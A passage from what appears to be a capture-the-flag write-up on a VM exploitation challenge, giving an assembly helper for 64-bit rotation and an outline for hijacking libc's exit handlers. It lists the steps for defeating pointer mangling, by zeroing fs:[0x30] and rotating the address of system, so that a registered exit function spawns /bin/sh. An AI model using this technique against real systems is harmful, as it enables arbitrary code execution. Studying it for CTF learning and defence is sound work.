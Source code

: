 
There is one caveat here - the VM does not have `rol` opcode, so we need to implement it manually. Remember that we have 64bit address in two 32bit registers, so we need to do `rol` on our own. Here is my quick & dirty implementation:

```asm
setbit1:
	cmp ecx, 0
	je set0_1
	mov ecx, 1
set0_1:
	ret

setbit2:
	cmp edx, 0
	je set0_2
	mov edx, 1
set0_2:
	ret

rol: 
	mov edi, 0

	rol_loop:
		mov ecx, eax
		and ecx, 0x80000000
		call setbit1
		shl eax, 1

		mov edx, ebx
		and edx, 0x80000000
		call setbit2
		shl ebx, 1

		or eax, edx
		or ebx, ecx

		inc edi
		cmp edi, esi
		jl rol_loop
	ret
```

Function takes three arguments in three different registers:
- `eax` - higher 32 bits of address you want to rotate
- `ebx` - lower 32 bits of address you want to rotate
- `esi` - number of rotations

It uses vm's stack also, so it has to be writable. 

Now we have everything to write the final exploit, so the steps are following:
- overwrite `fs:[0x30]` with 0
- calculate address of `system` and store it in the registers
- do `rol(0x11)` on stored address
- find address of `/bin/sh` string in libc and store it in the registers
- write mangled `system` addr to `fn` field of struct called `initial`
- write address of `/bin/sh` string to `arg` field of struct called `initial`
- run the exploit
